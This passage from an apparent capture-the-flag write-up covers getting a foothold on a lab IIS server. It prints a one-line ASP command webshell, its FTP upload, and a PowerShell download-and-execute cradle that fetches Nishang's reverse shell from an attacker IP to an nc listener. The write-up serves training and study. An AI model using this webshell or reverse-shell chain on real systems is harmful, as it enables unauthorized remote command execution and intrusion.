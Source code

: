 A webserver can be configured to handle different kinds of scripts. Some will run php, others asp, or aspx. Often I can see something in the HTTP response headers that will give me a clue. In this case, I don’t see anything that will help:

```

HTTP/1.1 200 OK
Content-Type: text/html
Last-Modified: Fri, 12 Oct 2018 22:10:28 GMT
Accept-Ranges: bytes
ETag: "abe052627862d41:0"
Server: Microsoft-IIS/10.0
Date: Mon, 13 May 2019 06:36:04 GMT
Connection: close
Content-Length: 696

```

I’ll try a few shells and see what happens. If I try to upload a php or aspx shell, I get this error on visiting the page:

![1547476784114](https://0xdfimages.gitlab.io/img/1547476784114.png)

But if I upload a simple asp shell, it works:

```

root@kali# cat /opt/shells/asp/cmd.asp 
<%response.write CreateObject("WScript.Shell").Exec(Request.QueryString("cmd")).StdOut.Readall()%>

```

```

ftp> put /opt/shells/asp/cmd.asp 0xdf.asp
local: /opt/shells/asp/cmd.asp remote: 0xdf.asp
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
100 bytes sent in 0.00 secs (5.6098 MB/s)

```

```

root@kali# curl http://10.10.10.116/upload/0xdf.asp?cmd=whoami
conceal\destitute

```

### Interactive Shell

From Webshell, it’s time to get an interactive shell. I’ll go with my Windows stand-by, Nishang `Invoke-PowerShellTcp.ps1`.
1. Make a copy of it in the local directory.
2. Add a line to the end: `Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.15 -Port 443`
3. Start `python3 -m http.server 80` in that same directory
4. Start `nc -lnvp 443`
5. Visit: `http://10.10.10.116/upload/0xdf.asp?cmd=powershell%20iex(New-Object%20Net.Webclient).downloadstring(%27http://10.10.14.15/Invoke-PowerShellTcp.ps1%27)`
